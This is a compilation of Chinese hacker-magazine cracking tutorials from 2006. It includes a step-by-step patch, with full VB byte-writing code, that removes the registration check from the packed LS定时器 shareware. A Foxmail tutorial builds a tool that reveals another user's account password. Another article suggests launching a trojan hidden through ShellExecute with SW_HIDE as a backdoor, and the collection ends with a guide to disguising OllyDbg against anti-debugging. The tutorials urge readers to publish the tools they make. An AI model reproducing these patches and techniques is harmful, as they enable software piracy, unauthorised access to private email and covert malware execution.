作为练习，下面以LS定时器为例，看看如何带壳编写破解补丁。这个软件提供如下功能：它可以根据你的设定在需要的时候提醒你，防止你忘记重要的事情；它可以根据你的设定在需要的时候运行制定程序；各种提示都是可以是重复的，它可以每分钟、每小时、每日、每天、每周、每月、每年的重复决不会怕麻烦；在某一时间，例如2004年1月1日20点30分关机；倒计时一定时间，例如在2小时30分以后关机；当键盘和鼠标没有操作一定时间，例如在你离开电脑30分钟后关机。

该软件未注册时只能使用30天，30天过后只能注册后才能使用，如图1所示。

Alexey Solodovnikov加的壳。这种壳脱壳也较为容易，特征标志比较明显。加了这种壳的软件运行时，壳先自行释放被加壳的软件，然后再运行被加壳的软件。我们只要找出释放后、运行前的位置，在这个位置跳到我们的补丁代码处进行补丁行动，补丁完成后返回，接着继续软件就完事了。

使用OllyDbg载入程序，不用运行。向下滚动代码区，直到找到如下代码：

```
006083AF   .  61            POPAD
006083B0   .  75 08         JNZ SHORT LsDown_
006083B2   .  B8 01000000   MOV EAX,1
006083B7   .  C2 0C00       RETN 0C
006083BA   .  68 00000000   PUSH 0
006083BF   .  C3            RETN
```

复制出来备用。在OllyDbg代码区按住右边的滚动条向下拖动，直到底部的全0区域，如图2所示。


在全0区域的前部，选一个偏移好记的位置。在代码区双击，在弹出的编辑框中输入任意一条汇编指令，如RETN，确定后的结果如图3所示。


欢迎使用 LS 定时器
LS定时器是一个共享软件，您可以免费试用30天。
本软件的注册费是人民币18元。
注册后您将得到本软件终身免费升级服务。
您的机器码是：S67SCG3D9
购买软件时请将机器码E-mail给我们。
日期错误！请重新运行软件或输入注册码。
[输入注册码] [购买本软件] [继续试用]

图1

#### 初步准备

首先使用PEiD探测得知，软件使用了ASPack 2.12 ->

## SECRET OF CRACK

在OllyDbg中选择这段代码,点右键,在弹出的菜单中执行“复制到可执行文件——选择部分(不同版本的OD这个菜单略有不同)”,在弹出的代码框中点右键,并在弹出的菜单中执行“保存文件”,另起一个名称,保存备用(为简化计算,此过程必需)。

#### 深入跟踪

这里是个高强度的工作,你需要有足够耐力和观察分析判断力。你没注册,又过了试用期,所以你必须找到所有的判断注册与否的关键跳转,并记录下相关的代码部分(该软件使用非可逆注册算法,只能爆破)。通过寻找,会得到如下关键代码:

```
1、005131FA  SETE AL
2、0051321E  JNZ SHORT LsDown.00513227
3、00533C89  JE SHORT LsDown.00533C91
```

通过分析和试验,发现需要将它们分别更改为:

```
1、005131FA  MOV AL,1
           NOP
2、0051321E  JE SHORT LsDown.00513227
3、00533C89  JNZ SHORT LsDown.00533C91
```

则软件可以使用并且没有任何限制。

#### 制作模拟补丁

因为这里所说的补丁制作不是在软件里直接完成,而是另用编程软件制作,所以需要取得补丁的汇编级机器码。又因为上述需要修改的汇编代码的机器码为:

```
MOV AL,1-->B0 01
NOP      -->90
JE SHORT LsDown.00513227-->74 07
JNZ SHORT LsDown.00533C91 -->75 06
```

其偏移地址分别为:

```
005131FA
0051321E
00533C89
```

所以模拟补丁形如:

```
MOV WORD PTR SS:[5131FA],1B0
MOV BYTE PTR DS:[5131FC],90
MOV BYTE PTR DS:[51321E],74
MOV BYTE PTR DS:[533C89],75
JMP LsDown.006083BA          ; 补丁完成后的返回
NOP
NOP
```

再在OllyDbg中下面的代码区的全0区域的任意位置输入上述汇编代码,然后复制出对应的汇编机器码备用。再返回到偏移006083B0处,将JNZ SHORT LsDown.006083BA改为形如JMP 0060A310(你选定的位置),复制出机器码备用。到此,模拟补丁代码获取工作完成。

#### 编写补丁程序

众所周知,反汇编后的代码位置的偏移与软件经过编译后的物理偏移是不一样的,要在壳外植入补丁需要取得对应位置的物理偏移。我们这里需要两处物理偏移,一处是对应于JNZ SHORT LsDown.006083BA的,一处是补丁部分的起始位置,这就需要借助于文本编辑器进行。

用UltraEdit(或其他文本编辑器)打开前面保存的修改过的更名文件,使用查找功能查找hex: 75 08 B8 01(对应于JNZ SHORT LsDown.006083BA),得到首地址为000935B0h,记下备用,然后拉到文件的最后,查找添加的代码位置(对应RETN),得到首地址为00095510h(视你选择的位置不同而不同),记下备用,至此全部准备工作完成。

做好上述准备工作后,你就可以使用任一编程软件来编写你的补丁程序了。

请注意我们所要做的 工作 修改006083B0处的跳转:植入动态补丁代码和设置返回跳转,其余还应该考虑版本检测、原文件备份、提示帮助等问题。以下是我用VB编写的主要部分代码

```vb
Open Fname For Binary As fhandle
    '再次检验
    '寻找软件版本的关键标志
    'VB中Get命令读数据指针从1开始,注意与hex编辑器中的地址的区别。即偏移+1。
    Get fhandle,,&H935B0,data1
    '为保险读取四个字节,也可多读
    Get fhandle,,&H935B1,data2
    Get fhandle,,&H935B2,data3
    Get fhandle,,&H935B3,data4
    '===================================================
    If (data1 <> &H61) And (data2 <> &H75) And (data3 <> &H8) _
        And (data4 <> &H1B8) Then MsgBox "请核对软件版本!", _
        vbCritical + vbOKOnly, "文件错误: ": Close fhandle: Exit Sub
    '修改全部要补丁的数据
    '===================================================
    '壳的出口部分的修改
    Put fhandle, &H935B1, &HE9
    Put fhandle, &H935B2, &H5B
    Put fhandle, &H935B3, &H1F
    Put fhandle, &H935B4, &H10
    Put fhandle, &H935B5, &H0
    Put fhandle, &H935B6, &H90
    Put fhandle, &H935B7, &H90
    '增加动态修改代码
    Put fhandle, &H95511, &H66
    Put fhandle, &H95512, &H36
    Put fhandle, &H95513, &HC7
    Put fhandle, &H95514, &H5
    Put fhandle, &H95515, &HFA
    Put fhandle, &H95516, &H31
    Put fhandle, &H95517, &H51
    Put fhandle, &H95518, &H0
    Put fhandle, &H95519, &HB0
    Put fhandle, &H9551A, &H1
    Put fhandle, &H9551B, &HC6
    Put fhandle, &H9551C, &H5
    Put fhandle, &H9551D, &HFC
    Put fhandle, &H9551E, &H31
    Put fhandle, &H9551F, &H51
    Put fhandle, &H95520, &H0
    Put fhandle, &H95521, &H90
    Put fhandle, &H95522, &HC6
    Put fhandle, &H95523, &H5
    Put fhandle, &H95524, &H1E
    Put fhandle, &H95525, &H32
    Put fhandle, &H95526, &H52
    Put fhandle, &H95527, &H0
    Put fhandle, &H95528, &H74
    Put fhandle, &H95529, &HC6
    Put fhandle, &H9552A, &H15
    Put fhandle, &H9552B, &H89
    Put fhandle, &H9552C, &H3C
    Put fhandle, &H9552D, &H53
    Put fhandle, &H9552E, &H10
    Put fhandle, &H9552F, &H75
    Put fhandle, &H95530, &HE9
    Put fhandle, &H95531, &H86
    Put fhandle, &H95532, &HE0
    Put fhandle, &H95533, &HFF
    Put fhandle, &H95534, &HFF
    Put fhandle, &H95535, &H90
    Put fhandle, &H95536, &H90
    Put fhandle, &H95537, &H90
    '完成写入，关闭它
    Close fhandle
```

> > Icefire: 细心的读者可能注意到,这两段代码中所使用的首地址比我们记录的首地址多1,这是因为VB的最小指针单位是1而不是0,而文本编辑器等的最小指针单位是0,所以在不同编程平台上编程时要多加注意。

编好补丁代码后，将其编译为可执行程序，然后试试你的东西，看能否将带壳的软件打补丁而且正常工作！我编好的补丁软件界面如图4所示
如果一切正常，那你就大功告成了。


#### 后记

有时，你可能想到要别出心裁的在软件中添加点属于自己的有个性的东西，比如警示框等。那也不难，只要你知道弹出对话框需要什么条件、用到哪些代码就可以做到。例如现在我想在软件启动前弹出一个对话框，如图5所示。


我们该如何做呢？这个问题当然要难一点。如果壳外有现成的对话框调用函数，就可以简单地进行调用。如果没有则需要添加较多的代码，这里就不讲了，免得有骗稿费之嫌。
总之，编写补丁如同编写一个软件，同样能实现自己的目的与愿望，展示自己的才华与智慧，个中乐趣只有亲自品尝之。

Icefire: 大家知道，在电子邮件处理软件Foxmail中可以给自己的账户加上访问口令，这样只有知道口令的人才能进入此账户浏览信件。如果忘记了邮箱口令该怎么办呢？我们可以自己制作一款Foxmail账户口令捕获器，运行后可以轻松得到Foxmail的账户口令！
适合读者：破解爱好者
前置知识：无

### 不懂汇编也做Foxmail口令捕获器

文/图 westhost

自己做一个简单的Foxmail口令捕获器并不是很难的事，大家完全可以很轻松地实现它，不信就跟我来！

有的朋友可能习惯于使用Outlook Express(OE)，对Foxmail的账户口令还不是很了解，所以在此让我们简单地了解一下Foxmail中设置账户口令的方法：选定自己的账户以后，右键单击此账户，在弹出的菜单中选择“访问口令”命令，会打开“口令”对话框（如图1所示）。


然后输入两遍口令（假设我们输入的是13800139，后面会用到它），单击“确定”按钮即可为自己的账户设置一个密码。以后要想进入此账户，必须输入你刚刚设定的口令才行。

接下来说说制作Foxmail账户口令捕获器所必须的工具。你手头必须有TRW2000或Softice，它们是动态调试工具。我个人推荐你使用TRW2000，因为它不用事先加载到内存中，不会开机就占用系统资源，而且作为中国人我们也应该支持国货嘛，下载地址http://211.86.67.4/myweb/kanxue/tools/tools/

## SECRET OF CRACK

栏目编辑\icefire\icefire@hacker.com.cn

Debuggers/TRW2000/TRW1.2X/ptrw1.22.zip。另外还需准备好本文的另外一个主角 注册机制作软件Keymake，这也是一款国产软件，可以制作软件注册机和补丁。

具体思路 用TRW2000来得到Foxmail账户与口令相比较的关键之所在，找到口令比较的地方，然后记录下此地址及其机器码（Keymake需要这些信息），再利用Keymake来制作账户口令捕获器。

好了，下面我们就要正式开始了，第一步的目标是得到真假Foxmail账户口令进行比较的地址，本文以目前使用用户最多的Foxmail4.2为例。运行Foxmail，点击有口令保护的账户，会弹出一个对话框让我们输入口令，随便输入一些字符，假设我们输入的是52183，然后运行TRW2000，按Ctrl+N进入TRW2000的调试界面中，输入：BPX  Hmemcpy下断点，如图2所示。


> > Icefire：BPX是用来在指令处下断点的命令，在它后面可以是地址或函数名。用函数名作地址的格式为：“BPX 函数名”。这个函数名可以是任意一个API函数、虚拟机指令、DLL文件的引出函数等等。本文中我们用的是BPX Hmemcpy命令，它的含义是只要程序调用Hmemcpy函数，就用TRW2000中断下来。在许多文章中，将BPX Hmemcpy称为万能断点，这么说有些夸大成份在内，不过，在绝大多数情况下它是很管用的。函数Hmemcpy是Windows 9x系统的内部函数，位于Kernel32.dll中，它的作用是将内存中的一块数据拷贝到另一个地方。由于Windows9x系统频繁使用该函数处理各种字符串，因此用它作为断点很实用，它是Windows 9X平台最常用的断点。要提醒大家注意的是，在Windows NT/2K中没有这个断点，因为它们的内核和Windows 9x完全不同。

按F5键返回到Foxmail中，到输入账户口令的对话框中点击“确定”按钮，会被TRW2000中断下来，现在我们又回到TRW2000的调试界面中了。输入BC指令，清除断点。

> > Icefire：初学解密的朋友看到这儿可能有些疑惑——为什么要清除断点呢？就像我们在上一个提示中说过的那样，Windows会频繁使用Hmemcpy函数处理各种字符串，这会导致我们下的断点被频繁的中断下来，这样会不胜其烦，没完没了的中断不仅耽误时间而且会令你很苦恼，所以建议你还是把不使用的断点及时清除，这是一个好习惯。

接下来输入Pmodule命令，使用该命令会快速返回到Foxmail的“领空”，非常方便。其实，这也是我先推荐使用TRW2000的原因之一——对新手来说，使用TRW2000返回到程序“领空”更方便快捷，Softice要不断地按F12键多次，并且还需要有一定的经验才能判断出是否到了被调试程序的“领空”，而在TRW2000只需要输入Pmodule一下即可。

> > 所谓程序“领空”，实际上是指在某一时刻，CPU的CS:IP(EIP)所指向的某一段代码的所有者所在的区域。也就是看TRW2000停下来时光标所指的那一句代码是属于谁的，如果是属于Foxmail.exe的，就叫Foxmail.exe的领空，在TRW2000中看到的领空名是这样：FOXMAIL!.text，通过它我们就可以知道处于Foxmail的领空中了。

下面，按F10键单步执行程序，因为我们离核心比较区已经不远了，没有按多少下，就会来到如下所示代码区，这里就是真真假口令比较的关键之所在：

```asm
:005659FC 8B45F4          MOV     EAX,[EBP-0C]
// 输入D EAX会看到我们输入的假口令52183
:005659FF 8B5628          MOV     EDX,[ESI+28]
// 输入D EDX会看到真口令13800139
:00565A02 E81DE7E9FF      CALL    00404124
// ★这是关键比较CALL
:00565A07 7515            JNZ     00565A1E
// 如果真假口令不相等则跳走，暴力破解改为9090
```

从这部分代码当中我们可以得到这样一个结论，即00565A02处的CALL是关键CALL，而偏移地址00565A07那一行的JNZ 00565A1E是暴力破解的关键，如果将其改为两个90（NOP，空操作），就可以无需密码就能进入带有口令保护的Foxmail账户。如果在关键CALL那一行输入D EDX就可以看到真正的口令13800139！

下面我们开始制作Foxmail账户口令捕获器，该请出本文的另一位主角Keymake了。Keymake可以从另一进程中取出软件的注册码或口令，并在屏幕中显示出来，并且不需要你去了解注册程序的算法，只要你能找到被破解程序的核心编辑之所在就可以，对新手们来说，Keymake很不错，推荐你在制作注册机和补丁时使用。下载地址：http://211.86.67.4/myweb/kanxue/tools/tools/Patchers/KEYMAKE/keymake1.73.zip。

下载安装完毕，运行Keymake，看，界面很简洁吧（如图3所示）？


## SECRET OF CRACK

栏目编辑 > icefire > icefire@hacker.com.cn

点击“其它”菜单中的“另类注册机”，如图4所示。会出现“设置注册机窗口”窗口，如图5所示。

点击“浏览”按钮找到Foxmail的主程序Foxmail.exe，点击“确定”按钮将它加载到“程序名称”栏中，这样就指定了我们的目标程序。接下来点击屏幕左下角的“添加”按钮，出现“添加数据”窗口，如图6所示。


在“中断地址”一栏中输入关键CALL的偏移地址，在此为00565A02（有★号的那一行）。因为这是我们找到的第一个关键地址，所以在“中断次数”一栏中输入1，然后在“第一字节”栏中输入：E8，这是因为关键CALL的机器码为 E81DE7E9FF，它的第一字节是E8，而其机器码长度为5，所以接下来在“指令长度”栏中输入5。点击“添加”按钮就把刚刚填完的内容加入到“设置注册信息”窗口的“中断地址列表”中了。单击“关闭”按钮，关闭“添加数据”窗口，返回到“设置注册机窗口”中。OK 现在我们在“设置注册机窗口”中选择“寄存器方式”，然后在“寄存器方式”下方的下拉列表框中选择EDX（因为真正的Foxmail账户口令会出现在EDX中），这样就设置完毕了，看起来界面就像这样，如图7所示。


下面点击“设置用户信息”按钮，在这里可以为你的“Foxmail账户口令捕获器”设置一些信息。如软件的窗口标题，你的主页和邮件地址以及关于该软件的说明等，输入你想输入的信息即可，如图8所示是我输入的内容。

现在点击“生成”按钮，会出现一个对话框，如图9所示。

让你选择生成的注册机的外观界面，随便选一个，点击“确定”按钮，会出现“另存为”对话框，如图10所示。


让你给生成的程序起个名字，这里我给起的名字是FoxCrack.exe，点击“保存”按钮把它保存在Foxmail的安装目录下即可。到这里我们就成功地制作出Foxmail账户口令捕获器了！


让我们试试刚刚“编写”出来的“Foxmail账户口令捕获器”效果如何。运行刚刚生成的文件FoxCrack.exe，它会自动启动Foxmail.exe，用鼠标点击有口令保护的账户前面的“+”号，会弹出要你输入口令的对话框，随便输入一个字符，然后点击“确定”按钮，此时会弹出消息框，里面出现了该账户的正确口令！如图11所示。


看来我们真的成功了！呵呵，爽！把你看到的正确口令重新输入一遍，就可以看到有口令的账户里面的信件了！

> > 上面的顺序不可以颠倒，一定要先运行“Foxmail账户口令捕获器”才行。绝对不能先运行Foxmail，再运行“Foxmail账户口令捕获器”，那样不会成功。

好了，到了这里你现在已经成功地编制出了一款软件，放到互联网上去发布吧！你的大名将在互联网上流传开来，每一个使用该软件的人都会看到你的大名！是不是很骄傲？的确如此！而实现这一切并不需要你会编程，也不需要庞大的编程工具，非常简单易行，快试试吧！


网址：www.hacker.com.cn
2006 精华本 下册 27

栏目编辑)icefire)icefire @ hacker.com.cn

Icefire：长久以来破解爱好者们都在不断地寻求一种方式，可以突破Cracker局限的方式，可以不单单在各类软件中随意驰骋，更能在网络这块天地中自由翱翔的方式。或许本文就提供了一种让二者结合更巧妙的方式，希望能给你一点启发。

适合读者：破解迷、黑兵器库老板

前置知识 Crack工具的基本使用方法

### 简单Crack + Hacker

### 思维打造灵巧后门

文 / dickboy

相信这篇文章的出现将造成网络电视之类的东西漫天飞舞（或许还有一种新兴后门），我可没有一点点私心啊，知道这东西就立刻和大家分享了。

同学想看网络电视，可惜程序要注册，把我这个义工叫了过去，几下搞定后，一看注册费……还真不是一般的贵！要不咱也写一个得了？说不定也可以搞点钱花花。住宿费还欠着呢，不交钱不让考试，穷人家的孩子啊（Icefire：同道同道！想当初……唉，还是不想了，大过年的。）。可惜我不知道怎么写，我还没学过Windows编程，大家看过我的文章《Crack新手进化篇》吗？我的补丁程序可是黑忽忽的界面啊！哎，没有办法啊，不会Windows编程，只好分析别人的程序了，就拿网络电视小精灵下手吧！

用Peid检查后发现是用Delphi编写的，郁闷，很难找到是哪个函数自动打开Realplay或Media Player播放影音资料的，要是用VC++编写的就好了。到网上找了几个类似的网络电视程序，不是Delphi就是VB写的，没有一个VC++的，只好对网络电视小精灵动真功夫了--按江湖规矩，我们单挑……那个拿葱的大婶你过来！

#### Crack思维

用Dede反编译，Tnit1的TForm1看到很多事件，仔细看看，有一个CCTV1Click事件，双击来到对应代码

```asm
004A1A80                 push    ebx
004A1A81  8BD8           mov     ebx, eax
004A1A83  6A01           push    $01
004A1A85  6A00           push    $00
004A1A87  6A00           push    $00

* Possible String Reference to: 'http://www.cctv.com/sports/'
|
004A1A89  68A01A4A00     push    $004A1AA0
004A1A8E  6A00           push    $00
004A1A90  8BC3           mov     eax, ebx

* Reference to: QForms.TCustomForm.GetClientHandle(TCustomForm);QWorkspace;
|
004A1A92  E88501FAFF     call    00441C1C
004A1A97  50             push    eax

* Reference to: shell32.ShellExecuteA()
```

```asm
004A1A98  E89B94F8FF     call    0042AF38
004A1A9D  5B             pop     ebx
004A1A9E  C3             ret
```

嘿嘿，原来用的是ShellExecuteA。打开Ollydbg，载入网络电视小精灵，下断点在004A1A80，也就是CCTV1Click事件开始的第一条语句。运行，点击中央一台，开始播放了……，不对啊，竟然没有断下？！！仔细看看网址，原来用的ShellExecuteA是打开网页http://www.cctv.com/sports/的，CCTV1Click不是调用Media Player.exe打开中央一台的事件，那这个到底是什么东东呢？打开网络电视小精灵看看，在网络导航的体育栏目看到了原来是点击CCTV体育的事件，晕倒。

继续，再找一个熟悉的BBC1Click，从名字上看，应该是播放BBC电台或者电视台的事件（不知道有没有BBC电视台，呵呵），双击来到对应的地方，发现这次的代码和上面的完全不同：

```asm
0048E298  BAB0E24800     mov     edx, $0048E2B0

* Reference to control TForm1.WebBrowser1 : TWebBrowser
|
0048E29D  8B805C040000   mov     eax, [eax+$045C]

* Reference to : TWebBrowser._PROC_0046395C()
|
0048E2A3  E8B456FDFF     call    0046395C
0048E2A8  C3             ret
```

分析发现网络电视小精灵似乎使用TWebBrowser构件来播放网上的影音资料。赶紧从网上找一下TWebBrowser的资料，原来是Delphi的一个控件……不会Delphi啊，没办法。不死心，再找其它的事件--24：00了，还是先睡觉再说，明天早上还要上课呢！

刚躺到床上，突然想起前面的ShellExecuteA不是可以打开网页吗？那还有没有其它作用呢？赶紧起床！用IDA反汇编网络电视小精灵，找到ShellExecuteA（不要问我怎么找的，在Names选项），IDA就是好啊，给出了注释

```asm
jmp     ds:__imp_ShellExecuteA
; Opens or prints a specified file
```

看到了吗？简单翻译应该是：打开或打印一个具体

www.hacker.com.cn

2006精华奉献本 下册

## SECRET OF CRACK

栏目编辑 | icefire | icefire@hacker.com.cn

文件。

看来有希望，网上看电影也不是打开一个具体文件吗？还记得用Realone网上看电影吧，突然掉线的时候，是不是弹出一个对话框，说什么*.rm不能播放。赶紧用百度查了查ShellExecuteA的资料，哇，太多了，大部分都是VB中怎么用这个控件，没有一个我要的。灵机一动，换一种思维方式 当我们点击一个电视台或者广播台的时候，不是用Media Player.exe打开就是用Realplay.exe打开的。所以，要是可以用ShellExecuteA并且用Realplay.exe作为参数可以打开一个网上的影音文件，那么用“ShellExecuteA realplay.exe”搜索应该是有结果的。

好了，搜索“ShellExecuteA realplay.exe”，没有发现结果……不会吧？OK，再来搜索ShellExecuteA Media Player.exe，也是一个结果也没有。只好出绝招了，拿出Cracker必备的API手册，查ShellExecuteA，居然是用VB描述的……

第二天上课的时候没有集中精神，继续想这个问题，没有什么结果，回到寝室，查MSDN，有发现了：

```
HINSTANCE ShellExecute(
    HWND hwnd,
    LPCTSTR lpOperation,
    LPCTSTR lpFile,
    LPCTSTR lpParameters,
    LPCTSTR lpDirectory,
    INT nShowCmd
);
```

lpOperation支持的用法有：

| 操作 | 说明 |
| --- | --- |
| edit | Launches an editor and opens the document for editing. If lpFile is not a document file, the function will fail. |
| explore | Explores the folder specified by lpFile. |
| find | Initiates a search starting from the specified directory. |
| open | Opens the file specified by the lpFile parameter. The file can be an executable file, a document file, or a folder. |
| print | Prints the document file specified by lpFile. If lpFile is not a document file, the function will fail. |

英语菜，就不翻译了，具体请查阅MSDN，我怕我说骗稿费。

到这里你有什么想法？ lpOperation已经指出了一些操作，对编写网络电视有用的只有上面的“open”。后来从网上找到了《深入浅出ShellExecute》

Q：如何打开一个网页？

```
ShellExecute(this->m_hWnd,"open","notepad.exe", "c:\\MyLog.log","",SW_SHOW) ;
As you can see, I haven't passed the full path of the programs.
ShellExecute(this->m_hWnd,"open","http://www.google.com", NULL, NULL, SW_SHOW) ;
```

哪个更有用呢？第一个？实验一下，假如我替换Notepad.exe为Media Player.exe，替换“c:\\MyLog.log”

为“d:\\t.mid”，当然这里的“d:\\t.mid”是真实存在的MID音乐，这样行吗？先简单测试一下。选择开始菜单->运行,输入"Media Player.exe d:\t.mid",弹出Windows Media Player开始播放t.mid了。

赶快用VC新建一个Win32 Console Application工程，输入如下代码：

```c
#include <windows.h>

int main(int argc, char* argv[])
{
    ShellExecute(0, "open", "Media Player.exe", "d:\\t.mid", "", SW_SHOW);
    return 0;
}
```

执行，呵呵，是不是一个黑忽忽的界面之后，弹出Windows Media Player开始播放t.mid了？成功！


Windows 98系统下不是Media Player.exe,98下面是Mplayer2.exe,请大家对照自己的机器做实验。文中的机器是Windows XP。

第二个例子打开一个网页，用什么打开呢？用IE，确切地说是用默认的浏览器，因为这里没有指定有什么打开，也就是说打开网页有一个关联程序，也就是默认的浏览器。发散一下思维，如果把这里的http://www.google.com换成其它呢？这里我换成“d:\t.mid”，赶快用VC新建一个Win32 Console Application工程，输入如下代码

```c
#include <windows.h>

int main(int argc, char* argv[])
{
    ShellExecute(0, "open", "d:\\t.mid", "", "", SW_SHOW);
    // 注意与上面的不同之处，去掉了"Media Player.exe"，
    // 同时要打开文件的具体位置成了第3个参数
    return 0;
}
```

执行，呵呵，一个黑忽忽的界面之后又弹出Windows Media Player开始播放t.mid了。因为我测试的机器默认MID关联Windows Media Player，这就是为什么我在上面强调“打开网页关联默认的浏览器”，如果你的机器默认是关联其它的播放器（如豪杰系列），则应该弹出豪杰的超级音频解霸播放t.mid。

已经出现曙光了，现在到Baidu找一首歌曲，我找的是 陈慧琳-记事本。查看属性，得到地址：http://mp3.baidu.com/u?u=http://www.jsshmzx.com/zhuwei/geci/flash/ZzI$.mp3

继续修改程序：

```
hellExecute(0, "open", "http://mp3.baidu.com/u?u=http://www.jsshmzx.com/zhuwei/geci/flash//ZzI$.mp3", "", "", SW_SHOW);
```


这个地址是Baidu搜索的，到读者自己测试的时候可能已经过时了。

运行，Windows Media Player开始播放陈慧琳的记

## SECRET OF CRACK
> 栏目编辑: icefire icefire@hacker.com.cn

事本了！成功！

#### Hacker思维

当我们上网看电视的时候,Windows Media Player或者Realone会打开网络电视内置的网址,这个网址是要作为Windows Media Player或者Realone的请求发给服务器的,所以这里有两个方法。
1.既然是网络电视内置的网址,那么我们可以先用W32dasm反汇编之后去找网址。
这里仍以网络电视小精灵为例,用W32dasm反汇编,会发现大量的网址,但是仔细看,会发现几乎没有一个网址是用来看电视和听广播的,都是网络电视小精灵里面网络导航提供的网址。似乎此路不通? 等等,再用Ollydbg载入网络电视小精灵,查看字符参考,吃惊吧? 基本可以找到所有的看电视和听广播的网址。
2.既然这个网址是要作为Windows Media Player或者Realone的请求发给服务器,所以我们可以用Sniffer软件获得真实地址。
测试时我用的Commview,个人觉得这是我等菜鸟最好用的Sniffer,这里我简单说一下,设置过滤条件:IP为自己机器的IP,只捕获流出的数据包。设置协议,因为播放影音文件的协议有mms://、rtsp://等。如果捕获不到地址,放宽条件就可以了。
Ok,现在解决了所有问题,剩下的就是不停地加入

网址,写代码了。下面谈谈怎么利用ShellExecute做一个属于自己的隐蔽的后门,这也是从上面的内容中引发的灵感。先看以下代码:

```c
// test.cpp: 定义控制台应用程序的入口点
#include <windows.h>
int main(int argc, char* argv[])
{
    ShellExecute(0, "open", "Media Player.exe", "d:\t.mid", 0, SW_HIDE);
    return 0;
}
```

测试上面的代码,运行,有什么发现吗? 应该有吧:黑忽忽的界面之后,听到音乐了吧! 但是看到“Media Player”的界面了吗? 没有! 这是因为最后一个参数改为了SW_HIDE,如果这里第2个参数不用Open,而用0则不会呈现“Media Player”的界面;但是却是在播放音乐——想到了什么? 仔细想想,如果这里不是Media Player.exe,而是你的木马xx.exe? 你用另外一个正常的程序悄悄启动xx.exe? 呵呵,这个想法不错吧! 这可不是容易被杀死的极品后门啊!
好了,文章到这里就结束了,希望大家能看明白,我在上面写出ShellExecute的原型就是因为我想让朋友们去发掘每一个参数的意义,说不定就能发现宝藏哦!

适合读者: 破解爱好者
前置知识: OllyDbg基本使用方法

### 打造杀不死的OllyDbg

文 / 图 Crack

OllyDbg是地球人都知道的32位汇编级调试器,破解的必备工具。相信各位对它都不会陌生,软件的功能就不再介绍了。由于它名声太响,所以很多软件都反OllyDbg调试,到现在更是很多猛壳也纷纷开始反OllyDbg的调试了,比如Acprotect、EPE(在看雪上老王说过一句话: 至今为止这个壳还没有被脱掉的记录)等。面对这样的软件和壳,我们的OllyDbg一运行就被Kill掉了,怎么办? 难道就这样被吓倒? 看看文章的标题——打造杀不死的OllyDbg,你知道我要做什么了吧?!

虽然FLY大侠已经做了一个反Acprotect的Olldbg,但我用它总是很难调试Acprotect程序,一载入就异常,然后退出。有一天看到Jeffzhang的怀旧Ollydbg发布,调试Acprotect不错,但是还是被Kill了……怒! 于是反Killd诞生: 基于1.10汉化版制作,Ollydbg汉化版绝对不能加壳,不然程序无法运行,Antikillod实际上是用Call Ollydbg载入插件工作。

这里我们拿Antikillod壳开刀,需要准备工具:Ollydbg1.1汉化版、UltraEdit10.20中文版、CmdBar.dll插件。

#### 第一步: 修改Ollydbg

1.改掉Ollydbg窗口的Caption和Classname
思路是在软件启动时改变创建窗口函数的参数。首先下断在“CreateWindowExA”,F9之后停下,根据CreateWindowExA回到函数调用的入口地址,继续向上走,在00435E37下断。再重新加载程序,F9运行,程序中段在00435E37。看下面的代码,很快就找到OD窗口的Caption(00435E5F)和Classname(00435E60),在其右边就可以看见“OLLYDBG”字符。部分代码如下:

```asm
00435E37.  6A 00          push 0          ; /lParam = NULL
00435E39.  51             push ecx        ; |hInst => 00440000
00435E3A.  6A 00          push 0          ; |hMenu = NULL
00435E3C.  6A 00          push 0          ; |hParent = NULL
```


www.hacker.com.cn
2006精华季版本 下册


## SECRET OF CRACK

栏目编辑：icefire icefire@hacker.com.cn

```
00435D3E. 8B45 E8   mov eax,dword ptr ss:[ebp-18] ;
00435E41. 50       push eax                      ;Height
00435E42. 8B55 EC   mov edx,dword ptr ss:[ebp-14] ;
00435E45. 52       push edx                      ;Width
00435E46. 8D96 08180000 lea edx,dword ptr ds:[esi+1808] ;
00435E4C. 8B4D F0   mov ecx,dword ptr ss:[ebp-10] ;
00435E4F. 51       push ecx                      ;Y
00435E50. 8D8E 32180000 lea ecx,dword ptr ds:[esi+1832] ;
00435E56. 8B45 F4   mov eax,dword ptr ss:[ebp-C] ;
00435E59. 50       push eax                      ;X
00435E5A. 68 0000CF02 push 2CF0000                ;Style = WS_OVERLAPPED|WS_MINIMIZEBOX|WS_MAXIMIZEBOX|WS_CHILD|WS_SYSMENU|WS_THICKFRAME|WS_CAPTION
00435E5F. 52       push edx                      ;WindowName
00435E60. 51       push ecx                      ;Class=
00435E61. 6A 10    push 10                     ;ExtStyle = WS_EX_ACCEPTFILES
00435E63. E8 34950700 call <jmp.&USER32.CreateWindowExA> ;\CreateWindowExA
```

我们转到内存中可以看到下面的数据，如图1所示。这里出现了两次“OLLYDBG”，它们分别就是OLLYDBG窗口的Caption和ClassName值，用UE去相应的地方改一改就行了。

先用UltraEdit修改OD原程序中所有Olllydbg字符串，替换字符我填的是ByCrack，

注意字节数必须相等，不然程序被你自己Kill。填入字符随意，反正不能是Ollydbg就行。如图2、图3所示


图1


图2


图3

删除OLLYDBG.ini，下次运行我们修改过好的ByCrack.exe就会自动的在当前目录创建ByCrack.ini文件了。改变修改后文件名为ByCrack，留下OLLYDBG原程序，运行ByCrack载入Acprotect程序，仍然被杀，Acprotect除了几个系统进程不感兴趣，发现其它载入调试它的东西一律杀，改为Cmd.exe这个名字就不会被杀（建议把改变修改后文件名为ByCrack.exe拷贝一份，重命名为Cmd.exe这样的系统程序名称。注意，这里是重命名），此时的Cmd.exe基本可以通关了。

不过改了名就不能载入插件了，如果OLLYDBG没有插件，对于我们来说那是多么可怕的事……大家不要灰心，继续往下看。

#### 第二步：加入插件

先设置好件目录，如图4所示。


图4

现在把CmdBar.dll插件放在所指向的Plugin目录，当我们运行自己修改过的OLLYDBG（我的是ByCrack）时会提示“插件错误”，如图5 所示。


图5

“确定”，关闭ByCrack.exe，用UltraEdit打开CmdBar.dll，查找替换OLLYDBG为ByCrack 然后保存，这样就可以使用插件了，如图6所示。


图6

现在用我们的Cmd.exe就可以调试Acprotect、EPE这样的猛壳了，作业完成！由于水平有限，错误之处敬请指出。

SECRET OF CRACK

> 栏目编辑) icefire) icefire @ hacker.com.cn

IceFire: 时下用VB来编写的程序是越来越多了,本文就是拿用VB编写的“脑筋急转弯大全V 2.0”来开刀的,这个软件采用了幻影的猛壳,让我们跟随作者,一起踏上征服这个软件的旅途吧!

适合读者: VB软件逆向工程爱好者
前置知识: 汇编语言知识,各种逆向工程工具的使用经验

# # 遭遇猛壳幻影
——脑筋急转弯大全破解流程分析
文/图 赵麟

